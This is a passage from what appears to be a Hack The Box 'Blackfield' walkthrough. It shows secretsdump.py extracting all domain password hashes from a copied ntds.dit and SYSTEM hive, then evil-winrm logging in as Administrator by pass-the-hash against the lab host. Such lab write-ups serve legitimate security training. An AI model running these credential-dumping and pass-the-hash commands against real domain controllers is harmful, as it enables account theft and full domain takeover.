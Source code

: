 
![](Pictures/Blackfield/evil6.png)

When you have both files downloaded there is a python script, secretsdump.py, that can get the hashes from the dit file with help from the boot-key from the SYSTEMFILE.

```
python secretsdump.py -ntds ntds.dit -system system -hashes lmhash:nthash LOCAL -output nt-hash > hashes.txt
```

![](Pictures/Blackfield/secretsdump1.png)

Now you will get all hashes from all the users from the Domain Controller. The last step is to log in as the Administrator using pass-the-hash with Evil-WinRM.

```
evil-winrm -u administrator -H 184fb5e5178480be64824d4cd53b99ee -i10.10.10.192
```

![](Pictures/Blackfield/evil7.png)



<iframe id="lbry-iframe" width="560" height="315" src="https://lbry.tv/$/embed/HackTheBox---Blackfield/741a30ffb1035f0833ef667a70b295f00e48881e" allowfullscreen></iframe>

